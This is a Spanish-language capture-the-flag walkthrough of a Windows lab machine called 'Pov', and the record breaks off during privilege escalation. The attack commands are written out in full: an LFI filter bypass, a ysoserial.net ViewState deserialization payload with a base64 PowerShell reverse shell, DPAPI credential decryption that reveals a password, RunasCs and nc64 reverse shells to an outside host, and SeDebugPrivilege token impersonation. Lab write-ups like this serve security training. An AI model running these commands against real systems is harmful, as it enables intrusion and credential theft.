






# Resolución maquina Pov

**Autor:** PepeMaquina  
**Fecha:** 08 de enero de 2026.
**Dificultad:** Medio  
**Sistema Operativo:** Windows.
**Tags:** Net, Pivoting, Debug.

---
## Imagen de la Máquina

*Imagen: Pov.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.230.183 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p80 10.129.230.183 -oN targeted
~~~
### Enumeración de Servicios

~~~bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
~~~
Se ve que el único puerto abierto es el 80, y este a su vez redirige a un dominio especifico "pov.htb", asi que directamente se agregara este al "/etc/hosts"
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ cat /etc/hosts | grep 10.129.183
10.129.230.183 pov.htb
~~~
### Enumeración Web
Bien se vio una pagina web, asi que inspeccionando ella no se ven cosas muy importantes, salvo en la parte de contactos menciona la existencia de un subdominio.

Este es "dev.pov.htb", asi que se lo agrega al "/etc/hosts" para poder ingresar a ver su contenido.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ cat /etc/hosts | grep 10.129.183
10.129.230.183 pov.htb dev.pov.htb
~~~

Al revisar el nuevo dominio tampoco se encontro gran cosa salvo un boton que descarga el CV del creador de la pagina.

Al momento de descargarlo se ve que exactamente si es un CV con informacion falsa sobre el desarrollador, revisando los metadatos tampoco se pudo encontrar gran cosa.
Según mi metodologia, cuando se puede descargar archivos del servidor, es muy probable que se pueda encontrar un LFI siempre y cuando no se encuentre sanitizado, asi que abriendo "BurpSuite" se procede a interceptar la solicitud.

### LFI
Al interceptar se puede ver un metodo POST que se envia al Repeter para modificarlo.

Se puede ver que detras corre ISS y en su defecto ASP.NET, tambien se puede ver distintos parametros que se envian en la solicitud POST, esto es un metodo de seguridad para que no se pueda modificar las solicitudes ni nada malicioso, pero tambien se ve el parametro "file" que indica que descarga el "CV.pdf".
Esto puede ser una via potencial de conseguir un LFI, por lo que se procede a ingresar el archivo por defecto que tiene la pagina "default.aspx".

Se puede ver que casi todo su contenido es html puro, pero en la parte superior presenta un archivo "index.aspx.cs" que esta importando, asi que viendo su contenido.

Efectivamente se ve una via potencial para LFI, es muy parecida a la maquina "postman" donde los valores "../" se reemplazan por nada, pero se puede bypasear sencillamente colocando "....//".
Otra forma de saltar los filtros para LFI es colocar una barra invertida "\" ya que se encuentra en windows.
No soy experto en web windows, asi que no se bien a que directorios entrar y encontrar información, asi que lo primero que intento encontrar en algun archivo de configuración, en ISS normalmente se llama "web.config".

Tras varios intentos, se encontró el archivo un subdirectorio atras y revisando el contenido no existen credenciales, pero se puede ver distintas llaves como "descriptionkey" que sirven para dar esa seguridad extra en los parametros al realizar la peticion POST.

### Aprovechando deserialización NET
Con estas llaves se puede probar un ataque de deserialización, de esta manera se puede modificar el parametro "ViewState" para generar un RCE y obtener acceso a la maquina.

Para ello existe la herramienta "ysoserial" ((https://github.com/pwntester/ysoserial.net)) para windows, con ella se puede crear el nuevo valor de ViewState y añadirle comandos como reverse shell, lo mas ideal seria probar con un ping o alguna forma que detone conexion a mi maquina, pero directamente agregare una clasica reverse shell con powershell en base64.

***NOTA: Esta herramienta funciona mejor en windows asi que desde otra VM windows se descargo el compilado y corrio la herramienta***

~~~powershell
C:\Users\<XXXX>\Downloads\ysoserial-1.35\Release>ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMQA2ADUAIgAsADQANAAzADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

NxffO3gxYTbxWTA5LK44DXYgBcQwLYwkSSrLglE1v329z9bAZjYpFyHGJeAGkVzOghspicT%2FkMRvYWCNxYxUFGMIAFd6NN1i31oaPfnwr%2BG%2Bs8ORcQ9UAXBhflayRzF6%2B09kGpQqh1Bpp97c9O60MjFZclZCjDMHoSkczF10QjMxhrx9ag9InEIh44rgGRW3qrJZoX%2F2WhIFvuVEvC1%2FXW6APhbRdMdlrjE7EMeXS%2BHQlwkxuoBizLygGIvb3gHI1YY2NVrKXlSz9n49ukBN9SUw6y%2BITRtX3AJ2zEDAyUeClS%2F6Ls%2FTRWvVeAUQ9YIjV7o%2B98ODpxfOvqFO5%2F4pa7wvcSfwe19fctmtvL90%2Fl3WwSFwKALxEJgkitDPH%2Bu6spO5QnbIxuuu5D%2BvgWyZ8dVo7uX6Yq3qdcrPqj84dD3a%2FByx9gecvyyywTVq%2BToWxvq85DSiN42Z0wmyGk9NnRDxKb09B3a9goDY1q5%2BVRr4H7qCboFRvQuZHIlKScXDtFGC3gVwbIhngH%2FIsgSb2yQhQe%2F6EQh2WWCIh8s7ZADYLC56hA%2BdDmtomdy3RBJvHMiKzyLV4HzYiCz%2FmZPOPBgT2gWW3xF8RwnLWXdLXrU63vRr6AQsP2kxORI8wt1YH%2BAiKBlpKyG0RefDe7xyDct9BclJBH2Bqp1ci2IiNmRQErzEriaF%2BbnS6Px3Y3R4sjg%2FWRD9yXe0l%2B9kuQFVUMK6gmj0BYlThogOpO7Ctu0Js%2BWu7VXJFo86MYm1OrNIXCQ1UIrjDfdJcHwEwgNzN4DYTsQ0EOgYofTTV7Mei6bkI8mDqk7n0Juv3kVNnDCFRSPaggQbm3viE8OlVV808tAJ06m%2F2c6%2FhHhs99ZgrP83GgOCjOzsJSflBNIgLUc4QXI6WBtneI1lAD3ENJY5niVqIiB9BRGI4VxXKR0Dhz7bL%2BBPFlxwdJd5kEjZ2tNWFhimMtD%2B0X30gR0p3%2FSfT1P%2F2moQXArY5AmSY7jFvgg%2FgIzNB5M2TuRvZEOYbkw4vOd%2FVcvSMLR17hbh7L376zDU6dRdimvTBANni5iAo%2FKBxLgKJIqBSmykCqPvuMov2rM6ygBSXN%2FXF0zDR1IBBn2ncLEL%2FCa6ysYXWYPeJmj4ouxs7kPh9iPJbdhzEwY9SamQFVK6cbFCXm50AxNivr2cQGamx2gf%2BhrkgLZ25VHL5S7SfQviEORDAPUpOparjYaS4kdGPrPx%2B%2FPoDN%2FNULC474giTQawXwlBrCLCOfV98KPQBKqMhalENgb5BKQ0MMAiUHEQViAycHLvdD5%2FbQqeXtfwAWIWXjwWMP1KqDgYyx8tdpigQR%2FVMOW6%2F1BXDNNjdj3YxPsNom%2BF8f8ZI9bsP4euA0VVMLo%2Fve9CBYpXMy9SEWyi5kcw1m9zPOr4i1kFeIRJMwF4GIM5CHeqQ5cX1EP7a9MREpSFDxEaMSpiizC2H4PGZI2rdShx%2FZVWqmIFRJfjmev%2BAW949z5WMrdk38bcSG2lpmzgnFD4PkyIXOGyERtZ%2Ft1TYvk%2FE91Bvl7A2oxxXq%2FvExyGI76iG5oKJnbuYje3SEdbv9wkEdZ9JtTbayNGn2rzIVTW9nv2mLV35uKJ0dmBe5koN8Im17IJ0E1QoYUWgCe2OchRI%2FgF0RD4ZOrOXFHJZNlJ5Ov8s26ZSJp06kqegt%2Bw0ygOGoRMYWLqJ4Zi905LeQ%2FU6U25lDfOm5TzdabDV1zaSzwqV33HfqLKVlf%2B1AiP00qyhtWIojTuxYtY7Q7l%2FB1id7Ho0QK3OVvcAgqi%2FpmxAqE0JxP%2FZLlLrIDWr9VDtmKZvzj9YPZush5jM9Rvy6mViLdGx4WKjJB5OCE51mJYtRmsvruzqyapWVDxo1ZnNMkOYt6eI%2BrMaTL0KW6ysGN2IfXsMgXGgskW8S1Dbmx%2BCshkHDvASIYVRndc%2BJyNUufbIqankmscN8aNLwltMzdgvIjTVpmor1epw%2Fv%2FWv8fneD7mc4Ptvh2s34mNQruAZUxXdXDVXqSgXkzqYAW6a9Cm3X1sF2nfnKl3%2FA6ufrh4VvxzHRokmkYBRzPO2lX7IHCMW8EFN7ArdpjzoJkZGAQRLc9n%2B2MgJZfsoHWdLfXw0qNCslUYE8yY5YtruSrdcrQRWDXZYIkjKS8mKS%2BddmVPD%2Bq1scCSEHqoBgTKfBUDYvEZrG3JawBBuSkHIY6Ms1B5ank0LzFWi%2BkaECoTnCSEYCI%2FVZw0vyCfiu%2B6epDZZBebLax6Ybs45FuaNGJBR6hxKFLeuM3ZqdLh04DcjD5K%2FMnKjlWfTTe3Qc3Y1y3ZtbaUds%2BubGxJ3IwE0RxJwGDuWyqrBMc3S1Lw0n233BrNdiEPREkl%2FgJp0wK58CAMaq%2BZt%2FmPGfbHM0w%2F6rUOiyt9g%2Fk0Okvrm9fNVy083dgYyTbJUq3x3YT11ZDJFzHHBx4dSyOTIJE2Id9GNKMqdfvxPpe7QNU50k4lHcWBPDEm5pw0Orj6h2Wye8ZJiTe3AE595bsribpW4PwCCyB7NKkGkZXfAWxwrylVx2ApjeRxB1C%2BCCsnbNVM8nANwzNRRxW8%2BhIQ7Vy%2FVjWVFh9qtDHLBoglMoXazCYJfMdGXy9bcvF3KQXBo%2FxTHIKfve%2BknP1ezVx038kOq2Neo5EHZoKtj3Lv6ZL%2F90%2FOsuz29IlNjbhhVI29LoDY%2B3pPTXyVLHvnDUN0jzSA7MhoVwJNOBa6pd3dkzFlqFRL2kMWvZ8Eu1ucSNBnqDQjwbnfpu4XWccvqJFD0ck7jlWkrWN95X2CzwFsYQGFOZ1f8GORBBRCwjzQ7ykljF%2Bd0p%2FNAUHwy%2F4KhX0P%2BDJEoW7kea7D%2B4a0z61M7106JHkdWCwRpbFxBVOhqowz%2F2ynrHzBkVtI1DfseLHbgsp8YV8vVTOL2oPHA%2F1i80%2Fw4e3%2BmEwrnO24TENUe4Bf8x1l2czAEkFc%2Fp9e0NVbgS7wgynlHsqEyHnmwLueE6EzJ4yHY2BGxQUQXBgpCNQzpmyt%2F3stFlVmr5Ss6n6R4QBSA%2BA%2BIMJLvvyelDIsm9eC%2B%2F5N9WgBx1Xk4XR68yR1KrCI9OKuWhTlHTDJGmbL4qhFznClpQOmdLj72OXSi849jKOSA1a0rwTccfpab0JEzCD4ywQU%2BVjJKftUlKFYPfCfMbsdkvSJU3ddcDBnldCcIMHKUdXyphh6mfcAO76%2FX2u%2BBL3RO22V2XJRMinU0W02mekFdh58onK9keuO3pPZGAW7iak7pWFWo%2Fp3gnXjnJsvDcQph7H3v94Jp%2FgIFNQaO90hwsL828XIdnm1pJdNAL1UzpFd1OrWLyBQy0ns3gpkVmR7x2Tr%2B3yVRppXp2OnwbKQOoh3AzenywuNnqTC9CZ%2Fg8FntX0i4dPqNcAjCdsZFXPKfvdT4jB7wlGVhhBUiQLTyka0nRbbrNf%2FGAgFAa70vh8uIJn5I3%2BArWnlOhW4KWd0y2a35EBZ43nuKLvVpops6Yz1dm5IsRD%2B1nMLB4ECNW41oWxq5gfDpsJWGRhtfGqELgXLS%2BwwUvh8D2Huj%2FuIgFS3NCNYoMNDI3J4z4HsKsAMOOFsmOCc2sUHSSeHqgXcXU1iQrs0Dbf8peH9H0EyaAKVx4ylJAX3%2F3yliSAOAAX%2BziP9WC5sjqud25lEUNmlkYZsFVYnvRx0jKWsNoNtAz68TQUK%2FRp4gxZthJFIqEiXKn1wl3FG1crk39Fmg77p%2FtneQeqI5%2BsduYKru%2FfazTi12KMx7tKLpQ%2FMp1q8CkmqBVzAClEDG0CyYw%2FYP2xGdPVf%2B5CSJeuTa%2FeBJMOAXd3GOeOHeovwLTORHUmAzuDPugYire0fdAWplf9y83xTO3BrYIjlh5H1q4HyiJrwcp0cuTLD1L3oQs3OPw2QqyHGCDRwLBmoDJBuFEVrejAXuhPBdrrgq1Rj%2BAe1AXL2RVbE4R5W22dx6A8zqBzeBUb7ZvmtVCoAIMX4giF%2BRp02QA51ogY%2FRUyEShMjA8PF7S2wUq9uNBH08P7%2BS8kusAfWby%2BEJK77scefDrJT0YwQISRGpjjWHIDRPIHodR7r%2FH8%2BjUojQOMXudyZHGtJPDgaumpUGsBC1rLaivZKOK1Kwy%2FhAXYUOxRwNrz%2FWUUAAW7AAKDpEAOCfA51Wwj7K10TXAL2rfU4SeasKTBRUygy581fQseJ4Cb1J8ueq6EgS1DskHQueA6gFc%2FjmG8fPXbC0hbstYmAi8yJ8IY%2Bi6msKIUkmkPxXuBCQ%3D%3D
~~~
Con el parametro cambiado, se procedio a agregarlo al repeter y corrio. Pero primero se abre un escucha.

En el escucha se puede ver que si se establece una conexión como el usuario sfitz.
~~~bash
┌──(kali㉿kali)-[~/htb/pov/content]
└─$ rlwrap -cAr nc -nvlp 4433     
listening on [any] 4433 ...
connect to [10.10.15.165] from (UNKNOWN) [10.129.230.183] 49671

PS C:\windows\system32\inetsrv> whoami
pov\sfitz
~~~

### Pivoting al usuario Alaading
Primero se intento buscar la user flag pero esta no se encontraba en este usuario, pero se encontro un archivo extraño.
~~~bash
PS C:\users\sfitz> tree /f
Folder PATH listing
Volume serial number is 0899-6CAF
C:.
????3D Objects
????Contacts
????Desktop
????Documents
?       connection.xml
?       
????Downloads
????Favorites
?   ?   Bing.url
?   ?   
?   ????Links
????Links
?       Desktop.lnk
?       Downloads.lnk
?       
????Music
????Pictures
????Saved Games
????Searches
????Videos

PS C:\users\sfitz> cd documents
PS C:\users\sfitz\documents> type connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
~~~
Este archivo muestra posibles credenciales para el usuario "alaading", pero primero se verifica que alaading sea un usuario valido en el dominio.
~~~bash
PS C:\windows\system32\inetsrv> net users

User accounts for \\POV
-------------------------------------------------------------------------------
Administrator            alaading                 DefaultAccount           
Guest                    sfitz                    WDAGUtilityAccount       
The command completed successfully.
~~~
Efectivamente el usuario existe, pero el formato del campo password del archivo no se me hace conocido, ademas que puedo ver "PSCredentials" en ciertos campos del archivo.
Entonces preguntando a la IA esta me dice que posiblemente sea un dpapi y dependiendo quien sea el dueño del dpapi se puede descifrar la contraseña en texto plano, asi que me recomienda probar.
~~~bash
PS C:\users\sfitz\documents> $cred = Import-Clixml .\connection.xml
PS C:\users\sfitz\documents> $cred.GetNetworkCredential().Password
f8gQ8fynP44ek1m3
~~~
Y efectivamente si muestra la contraseña en texto plano, esto porque soy el dueño del dpapi y automaticamente busca la master key para descifrarla y luego mostrar la contraseña en texto plano.

Lo malo es que como no se tiene un puerto externo abierto para la conexión remota, se procede a usar "Runas" para poder conectarse como el usuario "alaading".
***NOTA: Al parecer existe un tipo de proteccion que no deja pasar archivos en cualquier sitio, por lo que se crea una carpeta "C:\temp"***
~~~bash
PS C:\temp> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell -r 10.10.15.165:1234

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-6febf$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2208 created in background
~~~
Por otra terminal se crea un escucha para recibir la conexion.
~~~bash
┌──(kali㉿kali)-[~/htb/pov/content]
└─$ rlwrap -cAr nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.15.165] from (UNKNOWN) [10.129.230.183] 49690
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
pov\alaading
~~~
Y ya se tiene acceso al usuario alaading.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso como el usuario "alaading", se puede ver la bandera.
~~~bash
S C:\Windows\system32> cd /users
cd /users
PS C:\users> ls
ls

    Directory: C:\users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/26/2023   4:31 PM                .NET v4.5                                                             
d-----       10/26/2023   4:31 PM                .NET v4.5 Classic                                                     
d-----       10/26/2023   4:21 PM                Administrator                                                         
d-----       10/26/2023   4:57 PM                alaading                                                              
d-r---       10/26/2023   2:02 PM                Public                                                                
d-----       12/25/2023   2:24 PM                sfitz                                                                 

PS C:\users> cd alaading
cd alaading
PS C:\users\alaading> tree /f
tree /f
Folder PATH listing
Volume serial number is 0899-6CAF
C:.
����3D Objects
����Contacts
����Desktop
�       user.txt
�       
����Documents
����Downloads
����Favorites
�   �   Bing.url
�   �   
�   ����Links
����Links
�       Desktop.lnk
�       Downloads.lnk
�       
����Music
����Pictures
����Saved Games
����Searches
����Videos
PS C:\users\alaading> cd desktop
cd desktop
PS C:\users\alaading\desktop> type user.txt
type user.txt
<Encuentre su propia user flag>
~~~

---
## Escalada de Privilegios
### Aprovechando privilegios SeDebugPrivilege
Al revisar los permisos del usuario se puede ver que tiene el SeDegugPrivilege habilitado.
~~~bash
PS C:\users\alaading\desktop> whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                          
============ =============================================
pov\alaading S-1-5-21-2506154456-4081221362-271687478-1001

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE             Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
~~~
Esto da a lugar a poder realizar ataques que afecten directamente la memoria y poder escalar privilegios.
En este punto se me ocurren un par de ataques, entre ellos usar mimikatz para obtener credenciales de memoria, tambien usar rubeus para obtener ticket de kerberos (Si es que existen) o el mejor ataque y que primero probaria, usar distintas herramientas para ingresar una reverse shell en procesos que corren cono system.

Lo primero que intentare probar es la tercera opción, para ello se necesita la herramienta psgetsys.ps1 (https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1).
Primero se necesita obtener el PID de procesos que corren como system, los mas conocidos son winlogon.exe y lsass.exe.
~~~bash
PS C:\temp> tasklist
tasklist

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0        156 K
Registry                        88 Services                   0     11,344 K
smss.exe                       288 Services                   0      1,228 K
csrss.exe                      384 Services                   0      5,464 K
wininit.exe                    488 Services                   0      6,972 K
csrss.exe                      496 Console                    1      4,900 K
winlogon.exe                   556 Console                    1     16,416 K
services.exe                   628 Services                   0      9,436 K
lsass.exe                      636 Services                   0     44,060 K
svchost.exe                    764 Services                   0      4,064 K
svchost.exe                    784 Services                   0     15,196 K
fontdrvhost.exe                808 Services                   0      4,148 K
svchost.exe                    856 Services                   0     10,000 K
svchost.exe                    908 Services                   0      7,116 K
fontdrvhost.exe                964 Console                    1      4,412 K
svchost.exe                    244 Services                   0      5,860 K
dwm.exe                        304 Console                    1     36,964 K
svchost.exe                    320 Services                   0      8,484 K
svchost.exe                    408 Services                   0      6,172 K
svchost.exe                   1076 Services                   0     13,616 K
svchost.exe                   1100 Services                   0      7,972 K
svchost.exe                   1116 Services                   0     11,776 K
svchost.exe                   1124 Services                   0      5,852 K
svchost.exe                   1132 Services                   0      9,288 K
~~~
Buscando winlogon se puede ver que trabaja con el PID 556.
Ahora pasando la herramienta se debe importarla en memoria.
~~~bash
PS C:\temp> Import-Module .\psgetsys.ps1
~~~
Y finalmente correr el comando para generar una reverse.
~~~bash
PS C:\temp> ImpersonateFromParentPid -ppid 556 -command "C:\Windows\System32\cmd.exe" -cmdargs "/c C:\temp\nc64.exe -e cmd 10.10.15.165 443"
ImpersonateFromParentPid -ppid 556 -command "C:\Windows\System32\cmd.exe" -cmdargs "/c C:\temp\nc64.exe -e cmd 10.10.15.165 443"
[+] Got Handle for ppid: 556
[+] Updated proc attribute list
